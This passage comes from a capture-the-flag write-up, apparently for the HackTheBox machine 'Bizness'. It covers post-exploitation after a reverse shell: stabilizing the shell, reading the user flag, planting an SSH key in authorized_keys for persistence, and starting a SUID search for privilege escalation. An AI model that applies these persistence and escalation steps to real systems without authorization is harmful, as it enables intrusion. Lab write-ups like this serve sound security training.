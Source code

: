 **Result:**

* Successfully established a reverse shell.

**Shell Stabilization:**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Background the shell with ctrl + z, then:
stty raw -echo; fg
reset xterm
```

**Victory Snapshot:**&#x20;

<figure><img src="https://i.imgur.com/XKQvhAT.png" alt=""><figcaption><p><strong>I'M IN</strong></p></figcaption></figure>

**Achievement Unlocked: User Compromised**

```bash
cat ~/user.txt
# User flag acquired
```

***

## V => Privilege Escalation

### Establishing a Strong hold

**Command:**

```bash
cd /home/ofbiz/
mkdir .ssh
echo [your_public_key] > ~/.ssh/authorized_keys
```

**Secure Access:**

```bash
ssh -i [private_key] ofbiz@bizness.htb
```

### Privilege Escalation Attempts

#### Searching for SUID Files

Checked for exploitable SUID files.

**Command:**

```bash
find / -type f -perm /4000 2>/dev/null
```

**Outcome:**
